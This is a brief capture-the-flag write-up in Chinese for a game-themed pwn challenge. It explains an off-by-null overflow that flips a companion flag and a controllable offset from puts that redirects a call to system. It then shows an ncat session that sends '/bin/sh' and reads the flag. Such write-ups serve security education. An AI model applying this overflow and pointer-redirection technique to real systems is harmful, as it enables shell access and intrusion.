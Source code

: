 # W4 game

## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序，发现 ~~原神~~ 函数末尾运行了`(*(puts + (-(long)cnt - (long)offset)))(bytes);`  
那么只要控制cnt和offset，就可以运行system；控制bytes可以打开shell

cnt在完成委托每次+0x10000，而offset通过输入%hd获得；  
bytes在对肯德基爷爷的话中可以输入；  
现在唯一的问题是：怎样既选择派蒙又选择三月七以满足`if ((flag_paimon != 1) || (flag_march7 != 1)) break;`
的条件？

发现myread函数存在**off-by-null**溢出，动调发现溢出的刚好是选择的伙伴变量，
那么只要先选三月七，然后溢出修改伙伴为派蒙即可

虽然题目中完成4次委托给了system地址，但是libc给了...直接在libc中找偏移，
得出`system - puts`=0x38592

## EXPLOIT

```
> ncat node4.buuoj.cn 29415
请选择你的伙伴1
我永远喜欢三月七!
现在你可以开始探险了1.扣1送原石2.扣2送kfc联名套餐2
你有什么想对肯德基爷爷说的吗?
/bin/sh
1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐1
恭喜你完成一次委托1.扣1送原石2.扣2送kfc联名套餐3
you are good mihoyo player!
8592
cat flag
flag{removed}
```

Done.
